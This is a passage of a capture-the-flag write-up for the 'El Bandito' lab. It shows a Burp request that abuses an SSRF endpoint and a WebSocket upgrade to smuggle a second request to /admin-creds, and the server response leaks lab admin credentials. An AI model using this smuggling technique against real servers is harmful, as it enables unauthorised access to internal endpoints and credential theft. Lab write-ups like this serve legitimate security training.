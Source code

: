 ![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/EL%20Bandito%20(THM)/Images/image%20(4).png?raw=true)

- remove content-length

!!!!!!!!!!!!!!!!! `Add two new lines at the end (eg. 10, 11)` !!!!!!!!!!!!!!!!!!!!!!
REQUEST (try at burp)

```bash
GET /isOnline?url=http://10.4.9.248:5555 HTTP/1.1
Host: bandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Sec-WebSocket-Version: 13
Upgrade: WebSocket

GET /admin-creds HTTP/1.1
Host: bandito.thm:8080
```

REPLY

```bash
HTTP/1.1 101 
Server: nginx
Date: Sun, 25 May 2025 06:56:58 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 55
Date: Sun, 25 May 2025 06:56:58 GMT

username:hAckLIEN password:YouCanCatchUsInYourDreams404
```

# Flag 1

REQUEST
